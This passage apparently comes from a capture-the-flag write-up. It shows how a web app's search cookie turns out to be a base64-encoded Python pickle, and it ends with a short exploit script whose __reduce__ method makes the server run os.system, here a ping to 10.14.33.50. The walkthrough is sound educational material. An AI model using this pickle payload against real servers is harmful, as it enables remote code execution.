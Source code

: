 On looking at the top of the page we see that there's a search bar, a login form and a signup form.

I'll check out the search function first and i'll be intercepting the request using burp suite.
![image](https://user-images.githubusercontent.com/113513376/217816340-b6eab476-0011-4808-bb30-3009c8e4085e.png)

We just see that its like a normal search post request which includes a csrf token and the search query. With this i want to know what the response to the server will be.
![image](https://user-images.githubusercontent.com/113513376/217816439-f1a50b41-199d-44c8-a353-847f9c37d129.png)
![image](https://user-images.githubusercontent.com/113513376/217816461-1ae9c71d-7387-4b37-be45-b748b564ca09.png)

Hmmmm, we see that it sets a new cookie called search_cookie and gives it a value. I'll decode the value to see what the encoded string means.
![image](https://user-images.githubusercontent.com/113513376/217816709-ea7cab81-8964-4f18-b2e5-612eb48a9671.png)

On decoding it we see that it does contain the string we searched for which was lol, it then converted it to an object for the web server to understand and from this theory what we can assume that what is happening here is that its serializing the search query content and encoding it in base64. 

Now lets confirm it by decoding it using python with pickle and base64 library.
![image](https://user-images.githubusercontent.com/113513376/217816822-95158d53-c8df-4efd-b2bc-b39a31a6412b.png)

And from the result we can tell it is indeed performing serialization on the content of the search query.

Now from the web post request we see that the search value is then set as a cookie which has a name search_cookie. 

So now we want to perform deserialization attack we can leverage this instead of intercepting each request and forwarding it we will send this to repeater.
![image](https://user-images.githubusercontent.com/113513376/217816914-222fb7e7-660e-4a9b-ba46-440bb569f05a.png)

Now the next thing i did was to make a python script to perfrom a deserialization attack in which the web server will deserialize the malicious content given then run it.

![image](https://user-images.githubusercontent.com/113513376/217817145-2698891e-783f-482a-baaf-64cae35bb055.png)

```
import pickle
import os
import base64
#@author: Hack.You

class exploit:
	def __reduce__(self):
		cmd = ('ping -c 2 10.14.33.50')
		return os.system, (cmd,)

exploit_code = exploit()
serialized = pickle.dumps(exploit_code)
encode = base64.b64encode(serialized)
print(encode)
```
